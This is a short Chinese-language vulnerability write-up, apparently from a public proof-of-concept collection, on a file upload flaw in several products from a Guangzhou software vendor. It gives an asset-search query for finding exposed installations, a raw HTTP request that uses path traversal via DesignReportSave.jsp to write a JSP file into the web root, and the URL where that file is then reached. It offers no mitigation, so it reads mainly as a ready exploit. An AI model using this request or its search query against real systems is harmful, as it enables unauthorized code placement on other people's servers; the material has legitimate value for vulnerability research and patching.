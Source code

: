 # 速达软件技术（广州）有限公司多款产品存在文件上传漏洞

# 一、漏洞简介
速达软件技术（广州）有限公司多款产品存在文件上传漏洞

# 二、影响版本
+ 速达软件技术（广州）有限公司多款产品

# 三、资产测绘
+ hunter`web.body="速达软件技术（广州）有限公司"`
+ 特征

![1699201284929-aa4ce68c-746e-4b42-b2a6-5ee57011daf5.png](./img/8uIHpAGZiK2xZUfi/1699201284929-aa4ce68c-746e-4b42-b2a6-5ee57011daf5-445073.png)

![1699201312048-19df152b-1307-4860-87ac-d74fe2d646ae.png](./img/8uIHpAGZiK2xZUfi/1699201312048-19df152b-1307-4860-87ac-d74fe2d646ae-623971.png)

# 四、漏洞复现
```plain
GET /report/DesignReportSave.jsp?report=../stc.jsp HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=32A62132D706D2E2F3F66875BD5C012A
Upgrade-Insecure-Requests: 1
Content-Length: 68

<%@ page contentType="text/plain" %>
<%
    out.print("test");
%>
```

![1699459017913-2e909a95-490d-49fd-91c6-919310c1a031.png](./img/8uIHpAGZiK2xZUfi/1699459017913-2e909a95-490d-49fd-91c6-919310c1a031-824767.png)

上传文件位置

```plain
http://xx.xx.xx.xx/stc.jsp
```

![1699459047529-aa755f62-c725-4f3c-8e94-ac661fecb70f.png](./img/8uIHpAGZiK2xZUfi/1699459047529-aa755f62-c725-4f3c-8e94-ac661fecb70f-697918.png)



> 更新: 2024-02-29 23:55:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yapob2yebyvzwrrn>